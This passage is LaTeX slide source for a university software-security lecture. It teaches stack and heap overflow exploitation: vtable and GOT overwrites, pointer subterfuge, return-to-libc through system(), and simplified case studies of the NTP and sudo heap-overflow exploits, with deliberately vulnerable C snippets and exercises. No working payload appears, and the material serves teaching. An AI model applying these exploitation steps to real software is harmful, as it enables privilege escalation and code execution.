    \matrix[tight matrix,nodes={text width=3.8cm,text depth=.1ex,font=\small\tt},anchor=north west] (isVT) at (0, -3) {
        \tt slot for foo\\
        \tt slot for bar\\
    };
    \draw[thick,-Latex] (vulnClass-1-1.east) -- ++(.45cm,0cm) |- (isVT-1-1.east);
    \draw[thick,-Latex] (vulnClass-3-1.east) -- ++(.35cm,0cm) |- (isVT-1-1.east);
    \node[anchor=north west] at (5, 0) {
\begin{lstlisting}[language=C++,style=smaller]
class VulnerableClass {
public:
    char buffer[100];
    virtual void foo();
    virtual void bar();
};
VulnerableClass objArray[10];
\end{lstlisting}
};
\end{tikzpicture}
\begin{itemize}
\item if we can overflow \texttt{objArray[0].buffer} to change array[1]'s vtable pointer and know array[1].foo() will be called; finish the plan:
\end{itemize}
\small \begin{tabular}{ll}
buffer[0]: \rule{2cm}{.1mm} \hspace{1cm} & A. shellcode \\
buffer[50]: \rule{2cm}{.1mm} \hspace{1cm} & B. address of buffer[0]\\
array[1]'s vtable pointer: \rule{2cm}{.1mm} \hspace{1cm} & C. address of buffer[50] \\
~ & D. address of original vtable \\
~ & E. address of objArray[0]'s vtable \\
~ & E. address of objArray[1]'s vtable pointer \\
\end{tabular}
\end{frame}


\section{one write into another}
\againframe<6>{arbWrite}

\subsection{pointer subterfuge}
\usetikzlibrary{calc}
\begin{frame}[fragile,label=pointerSub]{pointer subterfuge}
\lstset{
    language=C,
    style=small,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
    morekeywords={size_t},
}
\begin{lstlisting}
void f2b(void *arg, size_t len) {
    char buffer[100];
    long val = ...; /* assume on stack */
    long *ptr = ...; /* assume on stack */
    memcpy(buff, arg, len); /* overwrite ptr? */
    ~2~*ptr = val~end~; /* arbitrary memory write! */
}
\end{lstlisting}
\imagecredit{adapted from Pincus and Baker, Figure 2}
% FIXME: stack picture
\end{frame}





\subsection{example: return address overwrite}
\begin{frame}[fragile,label=skipCanary]{skipping the canary}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=1.2]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt f2b} };
\draw[onStack,fill=red!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (canaryAddr)
     {stack canary};
\draw[onStack,fill=green!20] (0, -2.25) rectangle (10, -2.75) node[midway,align=center,font=\small] (ptr) {ptr (8 bytes)};
\draw[onStack,fill=green!20] (0, -2.75) rectangle (10, -3.25) node[midway,align=center,font=\small] (val) {val (8 bytes)};
\draw[onStack,fill=blue!20] (0, -3.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2->
\draw[-Latex,orange,ultra thick] ([xshift=1cm]ptr.east) -- ++(2cm,0cm) |- (stackAddr.east);
\draw[-Latex,orange,ultra thick,dashed] ([xshift=1cm]val.east) -- ++(2cm,0cm) |- (0.25, -5);
\end{visibleenv}

\begin{visibleenv}<3>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}


\subsection{example: GOT overwrite}

\begin{frame}[fragile,label=gotOverwrite]{attacking the GOT}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt f2b} };
\draw[onStack,fill=red!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (canaryAddr)
     {stack canary};
\draw[onStack,fill=green!20] (0, -2.25) rectangle (10, -2.75) node[midway,align=center,font=\small] (ptr) {ptr (8 bytes)};
\draw[onStack,fill=green!20] (0, -2.75) rectangle (10, -3.25) node[midway,align=center,font=\small] (val) {val (8 bytes)};
\draw[onStack,fill=blue!20] (0, -3.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\node[anchor=south] at (13.5, -1) { global offset table };
\draw[stackBox] (11.5, -1) rectangle (15.25, -1.5) node[midway,font=\small] (printfEntry) {GOT entry: printf };
\draw[stackBox] (11.5, -1.5) rectangle (15.25, -2) node[midway,font=\small] {GOT entry: fopen };
\draw[stackBox] (11.5, -2) rectangle (15.25, -2.5) node[midway,font=\small] {GOT entry: exit };

\begin{visibleenv}<2->
\draw[-Latex,orange,ultra thick] ([xshift=1cm]ptr.east) -- ++(2cm,0cm) |- (printfEntry.west);
\draw[-Latex,orange,ultra thick,dashed] ([xshift=1cm]val.east) -- ++(2cm,0cm) |- (0.25, -5);
\end{visibleenv}

\begin{visibleenv}<3>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]printfEntry.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}



\subsubsection{careful stack layout?}
\begin{frame}{laying out stack to avoid subterfuge}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=1.2]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt f2b} };
\draw[onStack,fill=red!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (canaryAddr)
     {stack canary};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -4.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack,fill=green!20] (0, -4.25) rectangle (10, -4.75) node[midway,align=center,font=\small] (ptr) {ptr (8 bytes)};
\draw[onStack,fill=green!20] (0, -4.75) rectangle (10, -5.25) node[midway,align=center,font=\small] (val) {val (8 bytes)};
\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\begin{visibleenv}<2->
\draw[-Latex,orange,ultra thick] ([xshift=1cm]ptr.east) -- ++(2cm,0cm) |- (stackAddr.east);
\draw[-Latex,orange,ultra thick,dashed] ([xshift=1cm]val.east) -- ++(2cm,0cm) |- (0.25, -5);
\end{visibleenv}

\begin{visibleenv}<3>
\draw[-Latex,red,ultra thick] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |- (0.25, -5);
\node[anchor=south west,red] at (0.25, -4.75) {
    machine code for the attacker to run
};
\end{visibleenv}
\end{scope}
\end{tikzpicture}
\end{frame}


\subsubsection{structs containing pointers}
\usetikzlibrary{arrows.meta}
\begin{frame}[fragile,label=structSubter]{other subterfuge cases (1)}
\begin{lstlisting}[language=C,style=small]
struct Command {
  CommandType type;
  int values[MAX_VALUES];
  int *active_value;
  ...
};
\end{lstlisting}
\begin{tikzpicture}[overlay,remember picture]
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\coordinate (my anchor) at ([xshift=-9cm,yshift=-2cm]current page.north east);
\begin{scope}[shift={(my anchor)},xscale=0.8]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address };
\node[at={(5, -6.1)},anchor=north] { lowest address };

\draw[onStack] (0, -.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (stackAddr)
     {more struct fields};
\draw[onStack,fill=green!20] (0, -2.25) rectangle (10, -2.75) node[midway,align=center,font=\small] (ptr) {active\_value};
\draw[onStack,fill=blue!20] (0, -2.75) rectangle (10, -5.25) node[midway,align=center,font=\small] {values};
\draw[onStack,fill=yellow!20] (0, -5.25) rectangle (10, -5.75) node[midway,align=center,font=\small] {type};
\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=globalSubter]{other subterfuge cases (2)}
\begin{lstlisting}[language=C,style=small]
Command *current_command;
char input_buffer[4096];

void run_next_command() {
  if (!current_command) {
    current_command =
        getNext();
  }
  current_command-> ...
  ...
}
\end{lstlisting}
\begin{tikzpicture}[overlay,remember picture]
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\coordinate (my anchor) at ([xshift=-9cm,yshift=-2cm]current page.north east);
\begin{scope}[shift={(my anchor)},xscale=0.8]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address };
\node[at={(5, -6.1)},anchor=north] { lowest address };

\draw[onStack] (0, -.25) rectangle (10, -2.25) node[midway,align=center,font=\small] (stackAddr)
     {more globals};
\draw[onStack,fill=green!20] (0, -2.25) rectangle (10, -2.75) node[midway,align=center,font=\small] (ptr) {current\_command};
\draw[onStack,fill=blue!20] (0, -2.75) rectangle (10, -5.25) node[midway,align=center,font=\small] {input\_buffer};
\draw[onStack] (0, -5.25) rectangle (10, -5.75) node[midway,align=center,font=\small] {more globals};
\end{scope}
\end{tikzpicture}
\end{frame}


\section{arc injection}
\begin{frame}{so far overwrites}
    \begin{itemize}
    \item once we found a way to overwrite function pointer\\
          easiest solution seems to be: direct to our code
    \item \ldots but alterante places to direct it to
    \end{itemize}
\end{frame}

\usetikzlibrary{arrows.meta}

\begin{frame}[fragile,label=returnToSomewhere]{return-to-somewhere}
\begin{tikzpicture}
% FIXME:
\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
}
\begin{scope}[xscale=0.75]
\draw[stackBox] (0, 0) rectangle (10, -6);
\draw[thick,-Latex] (10.25,-5) -- (10.25, -1) node [midway, below, sloped] {increasing addresses};
\node[at={(5, 0.1)},anchor=south] { highest address (stack started here)};
\node[at={(5, -6.1)},anchor=north] { lowest address (stack grows here)};

\draw[onStack] (0, -.25) rectangle (10, -1.25) node[midway,align=center,font=\small] (stackAddr)
     {return address for {\tt vulnerable}: \\ address of {\tt do\_useful\_stuff}};
\draw[onStack,fill=black!20] (0, -1.25) rectangle (10, -2.25) node[midway,align=center,font=\small] {unused space (20 bytes)};
\draw[onStack,fill=blue!20] (0, -2.25) rectangle (10, -5.25) node[midway,align=center,font=\small] {buffer (100 bytes)};

\draw[onStack] (0, -5.25) rectangle (10, -6) node[midway,align=center,font=\small] {return address for {\tt scanf}};

\draw[onStack,fill=red!20,opacity=0.9] (0, -5.25) rectangle (10, -1.25) node[midway,align=center,font=\small,text=red!50!black] {unused junk};

\draw[-Latex,red,ultra thick,dashed] ([yshift=2.5mm]stackAddr.south east) -- ++(.25cm,0cm) |-
    (11, -4.25) node[align=left,right,font=\small] { {\tt do\_useful\_stuff} \\ (already in program) };

\begin{visibleenv}<2>
\fill[white,opacity=0.5, overlay] (-1,-2) rectangle (18, -8);
\end{visibleenv}
\end{scope}
\end{tikzpicture}
\begin{tikzpicture}[overlay,remember picture]
\begin{visibleenv}<2>
\node[fill=white,draw,ultra thick,align=center,anchor=center] at (current page.center) {
    code is \myemph{already in program}??? \\
    how often does this happen??? \\
    \ldots turns out ``\myemph{usually}'' --- more later in semester
};
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=systemFunc]{example: system()}
\begin{lstlisting}[language={}]
NAME
       system - execute a shell command

SYNOPSIS
       #include <stdlib.h>

       int system(const char *command);
\end{lstlisting}
\begin{itemize}
\item part of C standard library
\item in any program that dynamically links to libc
\item challenge: need to hope argument register (rdi) set usefully
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=locateSystem]{locating system() Linux}
\begin{lstlisting}[language={},style=script,
moredelim={**[is][\btHL<1>]{~1~}{~end~}},
]
$ ldd /bin/ls
        linux-vdso.so.1 (0x00002aaaaaade000)
        libselinux.so.1 => /lib/x86_64-linux-gnu/libselinux.so.1 (0x00002aaaaab3a000)
        libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (~1~0x00002aaaaab65000~end~)
        libpcre2-8.so.0 => /usr/lib/x86_64-linux-gnu/libpcre2-8.so.0 (0x00002aaaaad57000)
        libdl.so.2 => /lib/x86_64-linux-gnu/libdl.so.2 (0x00002aaaaade7000)
        /lib64/ld-linux-x86-64.so.2 (0x00002aaaaaaab000)
        libpthread.so.0 => /lib/x86_64-linux-gnu/libpthread.so.0 (0x00002aaaaaded000)
$ objdump --dynamic-syms /lib/x86_64-linux-gnu/libc.so.6 | grep system
0000000000156a80 g    DF .text  0000000000000067  GLIBC_2.2.5 svcerr_systemerr
0000000000055410 g    DF .text  000000000000002d  GLIBC_PRIVATE __libc_system
~1~0000000000055410~end~  w   DF .text  000000000000002d  GLIBC_2.2.5 system
\end{lstlisting}
\begin{itemize}
\item if address randomization disabled: \\
address should be 0x00002aaaaab650 + 0x55410
\vspace{.5cm}
\item \texttt{ldd} --- ``what libraries does this load and where?''
    \begin{itemize}
    \item similar tools for other OSes
    \end{itemize}
\end{itemize}
\end{frame}


\section{case study: NTP exploit}
\usetikzlibrary{arrows.meta,patterns}
\begin{frame}[fragile,label=ntpStudyIntro]{case study (simplified)}
    \begin{itemize}
    \item bug in NTPd (Network Time Protocol Daemon)
    \item via Stephen R\"ottger, ``Finding and exploiting ntpd vulnerabilities''
        \begin{itemize}
        \item \url{https://googleprojectzero.blogspot.com/2015/01/finding-and-exploiting-ntpd.html}
        \end{itemize}
    \end{itemize}
\lstset{
    language=C,
    style=small,
    moredelim={**[is][\btHL<1|handout:0>]{~1~}{~end~}},
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{lstlisting}
static void
ctl_putdata(
  const char *dp,
  unsigned int dlen,
  int bin   /* set to 1 when data is binary */
  ) {
    ...
    ~1~memmove((char *)datapt, dp, (unsigned)dlen);~end~
    datapt += dlen;
    datalinelen += dlen;
}
\end{lstlisting}
\end{frame}

\begin{frame}<1>[fragile,label=target]{the target}
\lstset{
    language=C,
    style=small,
    moredelim={**[is][\btHL<1|handout:0>]{~1~}{~end~}},
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{lstlisting}
    memmove((char *)~1~datapt~end~, dp, (unsigned)dlen);
\end{lstlisting}
\begin{tikzpicture}
\tikzset{box/.style={thick}}
\draw[box,fill=blue!20] (0, 0) rectangle (10, -0.5) node[midway] (datapt) {datapt (global variable)};
\draw[box,fill=green!20] (0, -0.5) rectangle (10, -1.5) node[midway] {(other global variables)};
\draw[box,fill=red!20] (0, -1.5) rectangle (10, -2.5) node[midway] (buffer) {buffer (global array)};
\begin{visibleenv}<1-2>
    \draw[very thick,violet!70!black,-Latex] (datapt.west) -- ++(-.5cm,0cm) -| (0.5, -1.75);
\end{visibleenv}
\begin{visibleenv}<2->
    \draw[box,fill=orange!20] (11, -1) rectangle (15, -1.5) node[midway] (strlen) {strlen GOT entry};
\end{visibleenv}
\begin{visibleenv}<3->
    \fill[pattern=north west lines,pattern color=red,opacity=0.4] (0, -2.5) rectangle (10, 0);
    \draw[-Latex,very thick,dashed,red] (datapt) -| ([xshift=-0.5cm]strlen.west) -- (strlen.west);
\end{visibleenv}
\begin{visibleenv}<4->
    \draw[box,fill=violet!20] (11, -3) rectangle (15, -3.5) node[midway] (system) {{\tt system()} stub};
    \fill[pattern=north west lines,pattern color=red,opacity=0.4] (11, -1) rectangle (15, -1.5);
    \draw[-Latex,very thick,dashed,red] (strlen.south) -- (system.north);
\end{visibleenv}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=moreContext]{more context}
\lstset{
    language=C,
    moredelim={**[is][\btHL<1|handout:0>]{~1~}{~end~}},
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{lstlisting}
    memmove((char *)~1~datapt~end~, dp, (unsigned)dlen);
    ...
    ...
    strlen(some_user_supplied_string)
    /* calls strlen@plt
       looks up global offset table entry! */
\end{lstlisting}
\end{frame}

\againframe<2>{target}

\begin{frame}{overall exploit}
    \begin{itemize}
    \item overwrite {\tt datapt} to point to strlen GOT entry
    \item overwrite value of strlen GOT entry
    \item example target: {\tt system} function
            \begin{itemize}
                \item executes command-line command specified by argument
            \end{itemize}
    \item supply string to provide argument to ``{\tt strlen}''
    \end{itemize}
\end{frame}

\againframe<3->{target}

\begin{frame}{overall exploit: reality}
    \begin{itemize}
    \item real exploit was more complicated
    \item needed to defeat more mitigations
    \item needed to deal with not being able to write {\tt \textbackslash 0}
    \item actually tricky to send things that trigger buffer write
        \begin{itemize}
        \item (meant to be local-only)
        \end{itemize}
    \end{itemize}
\end{frame}



\subsection{subterfuge exercise}
\begin{frame}[fragile,label=subterExer]{subterfuge exercise}
\begin{lstlisting}[language=C++,style=script]
struct Student {
    char email[128];
    struct Assignment *assignments[16];
    ...
};
struct Assignment {
    char submission_file[128];
    char regrade_request[1024];
    ...
};
void SetEmail(Student *s, char *new_email) { strcpy(s->email, new_email); }
void AddRegradeRequest(Student *s, int index, char *request) {
    strcpy(s->assignments[index]->regrade_request, request);
}
void vulnerable(char *STRING1, char *STRING2) {
    SetEmail(s, STRING1); AddRegradeRequest(s, 0, STRING2);
}
\end{lstlisting}
\begin{itemize}
\item exercise: to set \texttt{0x1020304050} to \texttt{0xAABBCCDD}, what should STRING1, STRING2 be?
    \begin{itemize}
    \item (assume 64-bit pointers, no padding in structs, little-endian)
    \end{itemize}
\end{itemize}
\end{frame}


\section{overflows on the heap, first look}
\subsection{simple case}
\usetikzlibrary{arrows.meta,patterns}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}
\begin{frame}[fragile,label=heapOverflowInObj]{easy heap overflows}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
struct foo {
    char buffer[100];
    void (*func_ptr)(void);
};
\end{lstlisting}
};
\draw[stackBox] (0, 0) rectangle (4, -6);
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\draw[onStack] (0, -0.5) rectangle (4, -6) node[midway,font=\small] {\texttt{buffer}};
\draw[onStack] (0, -0) rectangle (4, -0.5) node[midway,font=\small] {\texttt{func\_ptr}};
\end{tikzpicture}
\end{frame}



\subsection{adjacent on the heap}
\usetikzlibrary{arrows.meta,patterns}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}

\begin{frame}[fragile,label=heapOverflowAdj]{heap overflow: adjacent allocations}
\begin{tikzpicture}
\lstset{language=C++,style=small}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
class V {
  char buffer[100];
public:
  virtual void ...;
  ...
};
...
V *first = new V(...);
V *second = new V(...);
strcpy(first->buffer,
       attacker_controlled);
\end{lstlisting}
};
\node[anchor=south] at (2, 0) {the heap};
\draw[thick,-Latex] (-.25,-5) -- (-.25, -1) node [midway, above, sloped] {increasing addresses};
\draw[stackBox,fill=black!20] (0, 0) rectangle (4, -6);
\draw[onStack,fill=white] (0, -0.5) rectangle (4, -2.0) node[midway,font=\small] {\texttt{second}'s \texttt{buffer}};
\draw[onStack,fill=white] (0, -2.0) rectangle (4, -2.5) node[midway,font=\small] {\texttt{second}'s \textbf{vtable}};

\draw[onStack,fill=white] (0, -3.0) rectangle (4, -4.5) node[midway,font=\small] {\texttt{first}'s \texttt{buffer}};
\draw[onStack,fill=white] (0, -4.5) rectangle (4, -5.0) node[midway,font=\small] {\texttt{first}'s \textbf{vtable}};

\begin{visibleenv}<2>
    \fill[pattern=north west lines,pattern color=red!80] (0, -2.0) rectangle (4, -4.5);
    \node[anchor=west,font=\small,align=left] at (4.1, -3.25) {result of\\overflowing\\buffer};
\end{visibleenv}
\end{tikzpicture}
\end{frame}




\subsection{preview: heap structure}
\begin{frame}{heap structure}
    \begin{itemize}
    \item where does malloc, free, new, delete, etc. keep info?
    \item often in data structures next to objects on the heap
    \vspace{.5cm}
    \item special case of adjacent heap objects problem
    \item topic for later
    \end{itemize}
\end{frame}


% FIXME: go into example from sudo
\section{sudo exploit example}
\begin{frame}{sudo exploit}
\begin{itemize}
\item this writeup: summary from \url{https://www.openwall.com/lists/oss-security/2021/01/26/3}
\item from group at Qualys
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=sudoBug]{sudo bug}
\begin{itemize}
\item the bug:
\end{itemize}
\begin{lstlisting}[language=C++,style=smaller]
for (size = 0, av = NewArgv + 1; *av; av++)
     size += strlen(*av) + 1;
if (size == 0 || (user_args = malloc(size)) == NULL) { ... }
...
for (to = user_args, av = NewArgv + 1; (from = *av); av++) {
while (*from) {
  if (from[0] == '\\' && !isspace((unsigned char)from[1]))
    from++;
  *to++ = *from++;
...
\end{lstlisting}
\begin{itemize}
\item can skip \texttt{\textbackslash 0} if prefixed with backslash
\item but \texttt{strlen} used to allocate buffer
\item disagreement about copied string length
\item heap overflow!
\end{itemize}
\end{frame}

\begin{frame}{brute-forcing?}
\begin{itemize}
\item method: tried to lots of buffer overflows, get crashes
\item looked at them by hand, found interesting ones\ldots
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=oneCrash]{one crash}
% FIXME: picture showing adjacent struct
\begin{lstlisting}[language={},style=script]
0x000056291a25d502 in process_hooks_getenv (name=name@...ry=0x7f4a6d7dc046 "SYSTEMD_BYPASS_USERDB", value=value@...ry=0x7ffc595cc240) at ../../src/hooks.c:108

=> 0x56291a25d502 <process_hooks_getenv+82>:    callq  *0x8(%rbx)

108         rc = hook->u.getenv_fn(name, &val, hook->closure);
\end{lstlisting}
\begin{itemize}
\item they overwrote a function pointer on the heap!
\item next inquiry: where did that usually point?
\end{itemize}
\end{frame}

\begin{frame}[fragile,label=sudoersSoCode]{sudoers.so}
\begin{lstlisting}[language={},style=smaller]
    *** interesting standard library function: ***
0000000000008a00 <execv@plt>:
    8a00:      endbr64 
    8a04:      bnd jmpq *0x55565(%rip)        # 5df70 <execv@GLIBC_2.2.5>
    8a0b:      nopl   0x0(%rax,%rax,1)
...
    *** usual value of function pointer: ***
000000000000ea00 <sudoers_hook_getenv>:
    ea00:      endbr64 
    ea04:      xor    %eax,%eax
    ea06:      cmpb   $0x0,0x51d36(%rip)        # 60743 <sudoers_policy@@Base+0x2003>
    ea0d:      jne    eaf8 <freeaddrinfo@plt+0x60a8>
    ea13:      cmpq   $0x0,0x51d45(%rip)        # 60760 <sudoers_policy@@Base+0x2020>
\end{lstlisting}
\begin{itemize}
\item<2-> observations (that hold true even with ASLR):
    \begin{itemize}
    \item addr(\texttt{execv@plt}) - addr(\texttt{sudoers\_hook\_getenv}) = \texttt{-0x6000}
    \item last 12 bits of execv@plt always \texttt{a00} (page alignment)
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{changing pointer (part one)}
\begin{itemize}
\item suppose hook\_getenv pointer is \texttt{0xabcdef8a00}
    \begin{itemize}
    \item as bytes: \texttt{\myemph{00 8a} ef cd ab 00 00 00}
    \end{itemize}
\item then execv@plt pointer is \texttt{0xabcdef3a00}
    \begin{itemize}
    \item as bytes: \texttt{\myemph{00 3a} ef cd ab 00 00 00}
    \end{itemize}
\vspace{.5cm}
\item only need to change the last two bytes
\item also: same change would work if pointer had different high bits
\item<2-> only four bits of random data from ASLR!
\end{itemize}
\end{frame}

\begin{frame}{changing pointer (part two)}
\begin{itemize}
\item solution: guess hook\_getenv pointer at  \texttt{0x} (unknown) \texttt{8a00}
\item overwrite last two bytes with \texttt{00 3a}
\vspace{.5cm}
\item if right: will execute your program
\item if wrong: will crash
\vspace{.5cm}
\item<2-> what if crashes? try again! 
    \begin{itemize}
    \item would work about once every 16 tries\ldots
    \item but actual exploit needed to write a 00 byte at the end (strcpy)
    \item so worked `only' about once every 4096 tries
    \end{itemize}
\end{itemize}
\end{frame}

\begin{frame}{into exploit}
\begin{itemize}
\item make \texttt{SYSTEMD\_BYPASS\_USERDB} program in current directory
\item run sudo, triggering buffer overflow to change \\ \texttt{\small sudoers\_hook\_getenv("SYSTEMD\_BYPASS\_USERDB", ...)} \\  into \\
      \texttt{\small execv(SYSTEMD\_BYPASS\_USERDB, ...)} 
    \begin{itemize}
    \item (well, try to change --- it won't always work)
    \end{itemize}
\end{itemize}
\end{frame}



\section{heap smashing}

\begin{frame}{heap smashing}
    \begin{itemize}
    \item ``lucky'' adjancent objects
    \item same things possible on stack
    \item but stack overflows had nice generic ``stack smashing''
    \item is there an equivalent for the heap?
    \item yes (mostly)
    \end{itemize}
\end{frame}




\subsection{heap bookkeeping}

\tikzset{
    stackBox/.style={very thick},
    onStack/.style={thick},
    frameOne/.style={fill=blue!15},
    frameTwo/.style={fill=red!15},
    markLine/.style={blue!50!black},
    markLineB/.style={red!90!black},
    hiLine/.style={red!90!black},
}

\begin{frame}{diversion: implementing malloc/new}
    \begin{itemize}
    \item many ways to implement malloc/new
    \item we will talk about one common technique
    \end{itemize}
\end{frame}

\begin{frame}[fragile,label=heapLayout]{heap object}
\begin{tikzpicture}
\node[anchor=north east] (code) at (-1,0) {
\begin{lstlisting}
struct AllocInfo {
  bool free;
  int size;
  AllocInfo *prev;
  AllocInfo *next;
};
\end{lstlisting}
};

\tikzset{xscale=0.9}
\begin{scope}[overlay]
    \draw[stackBox,fill=black!20] (0, 1) rectangle (3, -7);

    \draw[onStack] (0, 1) rectangle (3, 0) node[midway,font=\small,align=center] {free space \\ (deleted obj.)};
    \draw[onStack,fill=white] (0, -0.0) rectangle (3, -0.5) node[midway,font=\small] (freeANext) {next};
    \draw[onStack,fill=white] (0, -0.5) rectangle (3, -1.0) node[midway,font=\small] (freeAPrev) {prev};
    \draw[onStack,fill=white] (0, -1.0) rectangle (3, -1.5) node[midway,font=\small] (freeASize) {size/free};

    \draw[very thick, red, rounded corners] (0, 1) rectangle (3, -1.5);

    \draw[onStack,fill=blue!20] (0, -1.5) rectangle (3, -3.0) node[midway,font=\small,align=center] (freeBAlloc) {new'd object};
    \draw[onStack,fill=white] (0, -3.0) rectangle (3, -3.5) node[midway,font=\small] (freeBSize) {size/free};
    
    \draw[very thick, red, rounded corners] (0, -1.5) rectangle (3, -3.5);

    \draw[onStack] (0, -3.5) rectangle (3, -5.0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -5.0) rectangle (3, -5.5) node[midway,font=\small] (freeCNext) {next};
    \draw[onStack,fill=white] (0, -5.5) rectangle (3, -6.0) node[midway,font=\small] (freeCPrev) {prev};
    \draw[onStack,fill=white] (0, -6.0) rectangle (3, -6.5) node[midway,font=\small] (freeCSize) {size/free};
    
    \draw[very thick, red, rounded corners] (0, -3.5) rectangle (3, -6.5);
    
    \draw[-Latex,blue,thick] (freeAPrev) -- ++(1.75cm,0cm) |- (freeCSize);
    \draw[-Latex,blue,thick] (freeCNext) -- ++(2.00cm,0cm) |- (freeASize);
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.25cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeANext) -- ++(1.75cm,0cm) -- ++(0cm,2cm);
\end{scope}
\draw[-Latex,line width=3pt,black!50] (3.5,-2.25) -- (5.5,-2.25) node[black,midway,above,font=\small\tt] {free};
\begin{scope}[overlay,xshift=6cm,name prefix=sec-]
    \draw[stackBox,fill=black!20] (0, 1) rectangle (3, -7);

    \draw[onStack] (0, 1) rectangle (3, -5.0) node[midway,font=\small] {free space};
    \draw[onStack,fill=white] (0, -5.0) rectangle (3, -5.5) node[midway,font=\small] (freeCNext) {next};
    \draw[onStack,fill=white] (0, -5.5) rectangle (3, -6.0) node[midway,font=\small] (freeCPrev) {prev};
    \draw[onStack,fill=white] (0, -6.0) rectangle (3, -6.5) node[midway,font=\small] (freeCSize) {size/free};
    
    \draw[-Latex,blue,thick,opacity=0.5] (freeCPrev) -- ++(1.25cm,0cm) -- ++(0cm,-2cm);
    \draw[-Latex,blue,thick,opacity=0.5] (freeCNext) -- ++(1.75cm,0cm) -- ++(0cm,2cm);
\end{scope}
\end{tikzpicture}
\end{frame}

\begin{frame}[fragile,label=freeImpl]{implementing free()}
\lstset{
    style=small,
    language=C,
    moredelim={**[is][\btHL<2|handout:0>]{~2~}{~end~}},
}
\begin{lstlisting}
int free(void *object) {
    ...
    block_after = object + object_size;
    if (block_after->free) {
        /* unlink from list, about to merge with previous block */
